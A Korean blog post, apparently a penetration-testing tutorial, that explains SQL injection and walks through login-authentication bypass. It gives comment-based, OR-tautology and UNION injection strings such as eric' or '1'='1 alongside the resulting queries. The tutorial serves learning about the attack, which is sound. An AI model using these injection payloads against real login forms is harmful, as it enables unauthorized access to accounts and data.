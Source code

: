 ```yaml
---
layout: post
title: "SQL Injection -01 로그인"
tags: [모의해킹, SQL Injection]
comments: true
---
```


SQL Injection의 개념과 공격 방식 로그인 편

---

## (1) SQL 개념

![image](https://github.com/what0302/what0302.github.io/assets/18510716/ddb55325-2bc2-4ab6-983b-dc0ea67abacb)

### 1-1 SQL이란?

SQL(Structed Query Language : 구조적 질의 언어)는 관계형 데이터베이스 시스템에서 자료를 관리 및 처리하기 위해 설계된 언어임.

### 1-2 SQL Injection이란?

악의적인 사용자가 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL 쿼리문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도로 조작하는 행위임.

주로 사용자가 입력한 데이터를 제대로 필터링, 이스케이핑하지 못했을 경우에 발생함. 이러한 Injection 공격은 OWASP에서도 1순위로 분류될 만큼 공격이 성공할 경우 막대한 피해를 입힐 수 있어 보안에 각별한 주의가 필요함.

* OWASP(Open Web Application Security Project : 오픈소스 웹 애플리케이션 보안 프로젝트)란, 주로 웹에 관한 정보노출, 악성파일 및 스크립트, 보안 취약점 등을 연구하는 개방형 커뮤니티이며, 10대 웹 애플리케이션 취약점(OWASP TOP 10)을 발표함.

## (2) 로그인 인증

SQL Injection 공격은 DB와 웹사이트가 연결된 모든 파라미터에서 공격이 가능함. 여기서는 우선 로그인 파라미터에서 공격이 어떤 식으로 진행되는지를 간략히 설명함.

### 2-1 로그인 인증 과정

사용자가 웹사이트에 로그인을 진행하게 되면, 두 가지 프로세스가 처리되는데 하나는 **식별**이고 다른 하나는 **인증**임.

식별은 사용자가 시스템에게 인증받은 자라는 것을 확인 요청하는 프로세스로, 많은 데이터 중에서 사용자를 특정할 수 있는 정보를 뜻함.
대표적인 식별 정보에는 ID가 있으며, 이는 중복될 수 없음.

인증은 시스템이 사용자가 본인임을 증명하는 프로세스로, 일반적으로 비밀번호를 통해 사용자에게 인증을 요구함.
대표적인 인증 정보에는 비밀번호가 있음.

### 2-2 식별과 인증 프로세스

로그인 시 진행되는 식별과 인증의 프로세스는 크게 두 가지로 분류할 수 있음.

### 2-2-1 식별&인증 동시 방식

식별&인증 동시 방식은 아이디와 비밀번호를 동시에 비교해서 로그인하는 과정임.
`select * from table where id='eric' and password='eric1234';`

### 2-2-2 식별&인증 분리 방식

식별&인증 분리 방식은 아이디가 존재하는지 먼저 확인하고 비밀번호를 비교해서 로그인하는 과정임.
`if(select * from table where id='eric'; == user_id){
  if(select * from table where password='eric1234'; ==user_pw)
  }`

## (3) 로그인 인증 우회

로그인 파라미터에 SQL 질의문을 삽입하여 로그인 인증을 우회하는 방법을 설명함.

### 3-1 식별&인증 동시 우회

### 3-1-1 주석 처리 우회

(1) `select * from table where id='eric'#' and password='1';`
입력값 : eric'#

(2) `select * from table where id='eric' or '1'='1' # and password ='1';`
입력값 : eric' or '1'='1' #

-> and 문을 주석처리하여 인증 과정을 우회함

### 3-1-2 or 구문 우회

(1) `select * from table where id='eric' or '1'='1' and password ='1';`
입력값 : eric' or '1'='1

-> SQL 문법에선 or 연산자보다 and 연산자가 우선 처리됨. 즉, 후자의 and 문이 처리되면 거짓으로 처리되나, 이후에 처리되는 or 문 때문에 아이디가 eric 이거나 뒤의 and 문 중 하나만 참이어도 결과가 출력됨. 그러므로 해당 SQL 쿼리가 실행되면 eric의 정보가 추출됨

(2) `select * from table where id='eric' or '1'='1' or '1'='1' and password='1';`
입력값 : eric' or '1'='1' or '1'='1

-> 위에선 eric에 대한 정보만 추출되었다면, 해당 SQL 쿼리는 모든 정보를 추출할 수 있음.

### 3-2 식별&인증 분리 우회

### 3-1-3 union 우회

(1) `select * from table where id='eric' union select '1','2','3','4' # and password='1';`
입력값 : eric' union select '1','2','3','4' #

-> SQL에서 union은 쿼리를 여러개 실행할 수 있게 만들어주는 문법임.

*https://jisu069.tistory.com/32
*https://velog.io/@33bini/DB-SQL-Injection
















